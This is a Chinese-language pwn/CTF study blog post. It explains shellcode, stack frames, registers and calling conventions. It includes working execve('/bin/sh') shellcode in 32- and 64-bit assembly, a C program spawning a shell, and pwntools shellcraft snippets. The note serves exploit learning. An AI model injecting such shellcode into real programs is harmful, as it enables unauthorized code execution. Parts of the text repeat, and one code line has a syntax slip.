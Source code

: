 ```yaml
---
layout: post
title: "Pwn学习笔记 (三)"
author: "1llysviel"
categories: journal
tags: [documentation]
image: ELF.jpg
---
```


# Pwn学习笔记 三

----

## shellcode

​	什么是shellcode？

​		shellcode通常是软件漏洞利用过程中使用一小段机械码来：

- 启动shell，进行交互
- 打开服务器端口等待反馈
- 反向连接服务器端口
- （等等

那么一个简单的shell程序怎么获得呢

```bash
vim shell.c
#include"stdlib.h"
#include"unistd.h"

void main( )
{
        system("/bin/sh");
        exit(0);
}

gcc -o shell shell.c

#那么这个shell是怎么运行的？
gdb shell
b main
Breakpoint 1 at 0x1169
r
0x555555555178 <main+15>              call   system@plt                <system@plt>
#可以看到这个程序调用system的时候是先call了system的t表，通过system的t表找到了system函数的具体位置，再调用的main
#但是在真实情况下，你是不知道system函数的具体位置的，所以你没法call system@plt
↑P1 ↓P2
ll
#会发现这个shellcode文件 很大，比赛的时候是限制字节数的

#那么怎么解决俩问题呢？
→
1、触发中断（int 0x80或者syscall）进行系统调用
2、system底层调用（“/bin/sh”）或者调用execve（“/bin/sh ,0,0”）

#x32 execve syscall
0x0b 	const char *filename
#x64 execve syscall
0x3b	const char *filename
"https://publicki.top/syscall.html"
#但不是利用shellcode设置好各个寄存器，最后int 0x80进行系统调用就能getshell吗

#x32
nasm -f elf32 i386.asm
ld -m elf_i386 -o i386 i386.o
objdump -d i386
global_start
_start:
	push "/sh"
	push "/bin"
	mov ebx,esp;;ebx="/bin/sh"
	xor edx,edx;;edx=0
	xor ecx,ecx;;ecx=0
	mov al,0xb;;设置al=0xb
	int 0x80
#x64
nasm -f elf64 x64.asm
ld -m elf_x86_64 -o x64 x64.o
objdump -d x64
global _start
_start:
	mov rbx,'/bin/sh'
	push rbx
	push rsp
	pop rdi
	xor esi,esi
	xor edx,edx
	push 0x3b
	pop rax
	syscall
	
#但是这手敲太麻烦了，可以使用pwntools
1.设置目标架构
2.生成shellcode
#x32
from pwn import*
context(log_level='debug'arch='i386',os='linux')
shellcode=asm(shellcraft.sh())
#x64
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
shellcode=asm(shellcraft.sh())

程序逻辑
1、向buf读取0x400字节内容
2、并调用执行读入的内容
```

## 栈溢出基础

​	函数调用栈：程序运行时内存一段连续的区域，用来保存函数运行时的一些状态信息（包含局部变量与函数参数等）


称之为“栈”是因为发生函数调用时，调用函数（caller）的状态被保存再栈内，被调用函数（callee）的状态被压入调用栈的栈顶

在函数调用结束时，栈顶的函数（callee）状态被弹出，栈顶回复到调用函数的状态

函数调用栈在内存中从高地址向低地址生长，所以栈顶对应的内存地址在压栈时变小，退栈时变大



其中函数状态主要涉及三个寄存器 ----esp，ebp，eip

​	esp：用来储存函数调用栈的栈顶地址，在压栈和退栈时发生变化。

***ESP(Stack Pointer)是堆栈指针寄存器，存放执行函数对应栈帧的栈顶地址(也是系统栈的顶部)，且始终指向栈顶***

​	ebp用来储存当前函数状态的基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置。

***EBP(Base Pointer)是栈帧基址指针寄存器，存放执行函数对应栈帧的栈底地址，用于C运行库访问栈中的局部变量和参数。***

​	eip用来储存即将执行的程序指令的地址，cpu依照eip的储存内容读取指令并执行，eip随之只想相邻的下一条指令，如此反复，程序就得以连续执行指令

***EIP(Instruction Pointer)指令寄存器，指向处理器下条等待执行的指令地址(代码段内的偏移量)，每次执行完相应汇编指令EIP值就会增加（它其实一直在改变）***

下面是函数调用时，栈顶函数状态以及上述寄存器的变化：

​	“首先将被调用函数的参数按照逆序依次压入栈内，如果被调用函数不需要参数，则没有这一步骤，这些参数仍会保存在调用函数的函数状态内，之后压入栈内的数据都会作为被调用函数的函数状态保存”

​	“然后将调用函数进行调用后的下一条指令地址作为返回地址压入栈内，这样调用函数的eip信息得以保存”

​	“再将当前的ebp寄存器值（也就是调用函数的基地址）压入栈内，并将ebp寄存器的值更新为当前栈顶的地址。这样调用函数的ebp（基地址）信息得以保存。同时ebp被更新为被调用函数的基地址”

​	“再之后是将被调用函数的局部变量等数据压入栈内”

总结：函数调用变化的核心就是

-------

### new

#### 1、寄存器分配

​		 寄存器是处理器加工数据或运行程序的重要载体，用于存放程序执行中用到的数据和指令。因此函数调用栈的实现与处理器寄存器组密切相关。

主要涉及三个寄存器 ----esp，ebp，eip

​	esp：用来储存函数调用栈的栈顶地址，在压栈和退栈时发生变化。

***ESP(Stack Pointer)是堆栈指针寄存器，存放执行函数对应栈帧的栈顶地址(也是系统栈的顶部)，且始终指向栈顶***

​	ebp用来储存当前函数状态的基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置。

***EBP(Base Pointer)是栈帧基址指针寄存器，存放执行函数对应栈帧的栈底地址，用于C运行库访问栈中的局部变量和参数。***

​	eip用来储存即将执行的程序指令的地址，cpu依照eip的储存内容读取指令并执行，eip随之只想相邻的下一条指令，如此反复，程序就得以连续执行指令

***EIP(Instruction Pointer)指令寄存器，指向处理器下条等待执行的指令地址(代码段内的偏移量)，每次执行完相应汇编指令EIP值就会增加（它其实一直在改变）***

【扩展阅读】**栈帧指针寄存器**

为了访问函数局部变量，必须能定位每个变量。**局部变量相对于堆栈指针ESP的位置在进入函数时就已确定**，理论上变量可用ESP加偏移量来引用，但ESP会在函数执行期随变量的压栈和出栈而变动。尽管某些情况下编译器能跟踪栈中的变量操作以修正偏移量，但要引入可观的管理开销。而且在有些机器上(如Intel处理器)，用ESP加偏移量来访问一个变量需要多条指令才能实现。

因此，许多编译器使用帧指针寄存器FP(Frame Pointer)记录栈帧基地址。局部变量和函数参数都可通过帧指针引用，因为它们到FP的距离不会受到压栈和出栈操作的影响。有些资料将帧指针称作局部基指针(LB-local base pointer)。

在Intel CPU中，寄存器BP(EBP)用作帧指针。在Motorola CPU中，除A7(堆栈指针SP)外的任何地址寄存器都可用作FP。当堆栈向下(低地址)增长时，以FP地址为基准，函数参数的偏移量是正值，而局部变量的偏移量是负值。

#### 2、寄存器使用约定

​		 程序寄存器组是**唯一能被所有函数共享的资源**。虽然某一时刻只有一个函数在执行，但需保证当某个函数调用其他函数时，被调函数不会修改或覆盖主调函数稍后会使用到的寄存器值。因此，IA32采用一套统一的寄存器使用约定，所有函数(包括库函数)调用都必须遵守该约定。

​		**寄存器%eax、%edx和%ecx为主调函数保存寄存器(caller-saved registers)，当函数调用时，若主调函数希望保持这些寄存器的值，则必须在调用前显式地将其保存在栈中；被调函数可以覆盖这些寄存器，而不会破坏主调函数所需的数据**

​		**寄存器%ebx、%esi和%edi为被调函数保存寄存器(callee-saved registers)，即被调函数在覆盖这些寄存器的值时，必须先将寄存器原值压入栈中保存起来，并在函数返回前从栈中恢复其原值，因为主调函数可能也在使用这些寄存器。此外，被调函数必须保持寄存器%ebp和%esp，并在函数返回后将其恢复到调用前的值，亦即必须恢复主调函数的栈帧。**